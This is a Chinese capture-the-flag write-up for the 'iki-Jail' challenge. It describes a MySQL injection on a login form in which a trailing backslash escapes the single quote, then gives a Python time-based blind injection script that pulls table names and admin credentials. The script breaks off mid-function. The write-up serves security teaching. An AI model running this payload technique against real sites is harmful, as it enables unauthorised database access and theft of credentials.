 

### iki-Jail

考点：MySQL注入，单引号逃逸

熟悉的登录框，熟悉的sql注入

![image-20210215130849132](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210215130850.png)

发现用户字段必须要邮箱才可以，而且如果开了Burp抓包之后会出现一些问题，导致Ajax不能工作。

于是直接使用bp对`login.php`发包；

进行了简单的fuzz，过滤如下：

![image-20210215131110567](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210215131112.png)

由单双引号过滤想到了`\`逃逸单引号，当我们用户名输入`admin\`的时候，语句变成了：

```sql
SELECT * FROM user WHERE username='admin\' AND password='xxx'
```

那么`xxx`就变成了sql语句执行，造成了注入；

结果发现只能延时注入：

![image-20210215131033385](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210215131035.png)

exp：

```python
#python3,wh1sper
import requests
import time

host = 'https://jailbreak.liki.link/login.php'

def mid(bot, top):
    return (int)(0.5*(top+bot))

def transToHex(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x', '')
    return res

def sqli():
    name = ''
    for j in range(1, 200):
        top = 126
        bot = 32
        while top > bot:
            babyselect = '(database())'#week3sqli
            babyselect = "(select group_concat(table_name) from information_schema.TABLES where table_schema like database())"#u5ers
            babyselect = "(select group_concat(column_name) from information_schema.columns where table_name like 0x7535657273)"#usern@me,p@ssword
            babyselect = "(select `p@ssword` from week3sqli.u5ers)"#sOme7hiNgseCretw4sHidd3n
            babyselect = "(select `usern@me` from week3sqli.u5ers)"#admin
            payload = "^(if((ascii(substr({},{},1))>{}),1,sleep(2)))#".format(babyselect, j, mid(bot, top))
            data = {
                "username": "admin\\",
                "password": payload.replace(' ', '/**/')
                #^(if((ascii(1)>55),sleep(3),sleep(3)))#这个确实延时成功了
            }
```